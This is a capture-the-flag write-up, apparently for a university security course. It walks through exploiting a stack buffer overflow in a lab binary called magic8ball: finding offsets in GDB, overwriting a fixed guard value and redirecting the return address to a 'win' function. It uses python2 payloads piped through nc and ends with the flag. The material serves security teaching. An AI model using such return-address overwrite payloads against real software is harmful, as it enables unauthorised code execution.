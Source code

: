 # [buffer overflow magic8ball](https://github.com/li-li-ge/ctf_writeups/blob/main/code/magic8ball)

### nc comp6841.quoccabank.com 5003


* First, use **Binary Ninja** to identify vulnerabilities. We can see the "vuln" function and "win" function. Our goal is to exploit "vuln" to reach "win." Let's break this down into three steps.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true width=50%)


##### step1 How to create a buffer overflow, and how many bytes are required for the overflow?
* Initially attempted to use GDB to determine this. It seems that the buffer size is at -0x2c(%ebp), which means it is 44bytes above the %ebp.

	~~~
   0x0804871a <+130>:    lea    -0x2c(%ebp),%eax

   0x0804871d <+133>:    push   %eax

   0x0804871e <+134>:    call   0x8048450 <gets@plt>
	~~~

* Given that "fortune1" is pushed onto the stack frame before, it takes up 12 bytes above %ebp. Therefore, the "buf" should be 32 bytes. Please correct me if I am mistaken.

 	~~~
   0x080486d3 <+59>:    mov    $0x804a040,%eax

   0x080486d9 <+65>:    mov    (%eax),%eax

   0x080486db <+67>:    mov    %eax,-0xc(%ebp)

   0x080486de <+70>:    sub    $0x8,%esp

   0x080486e1 <+73>:    push   -0xc(%ebp)
	~~~

#### step 2 How to ensure that "fortune1" remains equal to "fortune"?
* first lets try to check if get buffer overflowed!

	```
	python2 -c 'print "A"*31' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	```

	* let's make it to buffer overflow
	
	``` 
	python2 -c 'print "A"*32' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	the sands of time have changed!!

 	```

* Attempted to debug and found the address to be 0xf0470770, which in decimal is 4031186800. oh. its the fortune.

* Add two breakpoints at the gets the address and the next instruction.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball3.png?raw=true)


* run the test which is "A"*32  or "A" * 33 to check which value be changed, then I found the exactly value is 0xf0470770.

 ![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball4.png?raw=true)

**milestone: finally skipped canary**

	
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" ' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	
	

#### step 3 How to return to the "win" address?

* get the "win" address which is 0x080485e6 by objdump

	```
	objdump -d magic8ball | grep win

	080485e6 <win>:

	804863c:    75 19                    jne    8048657 <win+0x71>

	8048655:    eb 3c                    jmp    8048693 <win+0xad>
	```

* added into our payload but still not returned to the win fun.

	~~~
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" +  "\xe6\x85\x04\x08" ' | 	nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	~~~

 

* It seemed that some bytes needed to be added between the canary and the return address in "vuln." So, I decided to try a **brute-force** approach to determine the number of bytes required. It turned out that 12 bytes were needed to successfully reach the "win" address.

	```
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" + "B"*12 + "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz

	Ive changed your fortune.

	Now your fortune is to go to jail.

	```

	```
	COMP6841{SOMEWHAT_OF_A_BIRD_WATCHER}
	```

 

 

 

